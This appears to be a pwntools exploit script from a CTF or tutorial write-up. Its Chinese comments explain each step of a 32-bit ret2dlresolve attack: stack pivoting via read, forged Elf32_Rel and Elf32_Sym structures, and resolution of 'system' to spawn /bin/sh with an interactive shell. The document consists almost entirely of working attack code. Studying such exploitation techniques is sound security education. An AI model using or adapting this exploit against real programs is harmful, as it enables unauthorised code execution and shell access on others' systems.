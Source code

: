 ```python
align=0x10-((fake_sym_addr-dynsym)&0xf)#Elf32_Sym结构是16字节，因此地址也需要和16字节对齐，二者地址相减
#然后只取最后一位，就可以理解成二者的地址是放在了一个结构里面
#（因为只考虑最后一位的话范围只是在16字节以内（但其实不是这样的，不过可以理解成这样，画个图就懂了）
#然后最后的值被0x10所减，求的就是fake_sym_addr距离16个字节所补齐差的字节数
#至于为什么减的是dynsym，淦，因为dynsym一定是被对齐了的，因此它需要找一个对齐的表来做参考啊
fake_sym_addr+=align#最后再加上这个为了补齐的字节才是最后我们要构造的fake_sym的地址



st_name=fake_sym_addr+0x10-dynstr#这个st_name就是dynstr段首地址距离目标函数名称的偏移
#我们把最终的system函数名称布置到了fake_sym_addr+0x10的位置，为啥加0x10?
#因为system上面还有一个Elf32_Sym的结构，这个结构大小为16字节
st_info=12#这个其实是由两部分组成，分别是前24字节的st_bind和后八字节的st_type（不过我感觉没必要区分，直接加起来就行）
#另外就是这个12是可以在IDA里面通过dynsym来查到（具体参考补充②）
fake_sym=p32(st_name)+p32(0)+p32(0)+p32(st_info)#这个就是伪造的Elf32_Sym结构


r_offset=e.got['read']#这个是ret.plt结构中的第一个成员，也就是解析之后的真实地址写入的地方
r_sym=(fake_sym_addr-dynsym)/0x10#这个我不是太确定，我感觉除0x10是因为Elf32_Sym的大小是16字节
# 这个偏移应该是以一个结构（16字节）为单位的
r_type=0x7#这个0x7是重定位的一种类型，指的是导入函数，进入_dl_fixup函数里面，还会检查这是不是0x7
r_info=(int(r_sym)<<8)+(r_type&0xf)#这里<<8是因为，最后还要再>>8，从而保持正常，而&0xf，其实没用，不写也行
reloc_index=base_addr-rel_plt+24#从rel.plt到base_addr+24的偏移也就是执行_dl_runtime_resolve的第二个参数
#而加24的原因是，我们将rel.plt结构布置在了距离base_addr偏移24的位置
fake_rel_plt=p32(r_offset)+p32(r_info)#这里就是伪造的rel.plt结构


payload1=offset*'a'
payload1+=p32(read_plt_addr) #劫持执行流，让程序再执行一次read，将我们想要伪造的内容存入我们指定的地方
payload1+=p32(four_pop_ret) #这里需要用连续四个pop把栈顶的内容给从栈顶清空，不然ret的时候就会出现问题
#这里采用四个pop的原因是因为如果采用三个pop的话，第三个pop是弹给了ebp，这样迁移的话就会出现问题，
#因此我用了四个pop前三个清空栈顶的参数，后一个pop去改变ebp的值，为了正常的完成栈迁移
payload1+=p32(0)
payload1+=p32(base_addr)
payload1+=p32(100)
payload1+=p32(base_addr-4#这里如果用base_addr的时候，会出现问题，调试的时候发现dl_fixup的时候发现
#里面push了一个ecx，（这个ecx）被用来当做dl_fixup的参数（link_map)，这个ecx就是我们第二次输入的首地址
#如果首地址里面装了4个a的话，就会出现错误（因为参数link_map怎么能是4个a呢），通过调试发现，link_map本身正常的
#参数就是push了ds:0x0804a004(此时的栈已经迁移过了，调试发现压到的这个栈顶居然就是0x0804a800），因此为了让dl_fixup拿到
#这个正常的参数，我们就要让ecx是0x0804a800，而怎么让这个ecx变成0x0804a800，我们只能是read输入的第二个参数
#设置成0x0804a800才可以，而我们迁移之后还想让0x0804a800这里的数据是正常的，那就只能迁移到的地址调高0x4个字节，这样
#迁移过来的时候，栈顶（也就是0x0804a800）依然是正常的link_map
#（如果不太理解我说的是什么意思的话，自己可以把base_addr-4改成base_addr用gdb调试一下就知道了）
payload1+=p32(leave_ret_addr)#如果不知道这里为什么要用leave_ret_addr的话
#建议再学习一下栈迁移，我的博客上有一篇详细介绍了栈迁移的文章
p.send(payload1)
pause()
#payload2='aaaa'#上面采用了抬高0x4字节，因此这里不用再填充垃圾数据了，以便让dl_fixup正常执行
payload2=p32(plt0)#这个plt0和下面的reloc_index，他们共同组成了read_plt（具体参考下面的补充③）
payload2+=p32(reloc_index)
payload2+='bbbb'#这四个b就是返回地址
payload2+=p32(base_addr+80) #这个放置的是system的参数的位置，也就是/bin/sh的位置
payload2+='bbbb'
payload2+='bbbb'#由于read的参数是三个，而system的参数只用了第一个，因此另外两个参数需要填充一下垃圾数据
payload2+=fake_rel_plt#开始放置伪造的rel.plt表
payload2+=align*'a'#保证fake_sym是对齐了16字节
payload2+=fake_sym#伪造的Elf32_Sym结构
payload2+='system\x00'#最终伪造的字符串，让dl_lookup_symbol_x去搜索这个字符串
payload2+=(80-len(payload2))*'a'#因为上面提到了会把参数放在偏移80的位置，因此这里填充\x00到偏移80这里
payload2+='/bin/sh\x00'
payload2+=(100-len(payload2))*'a'
p.send(payload2)
p.interactive()
```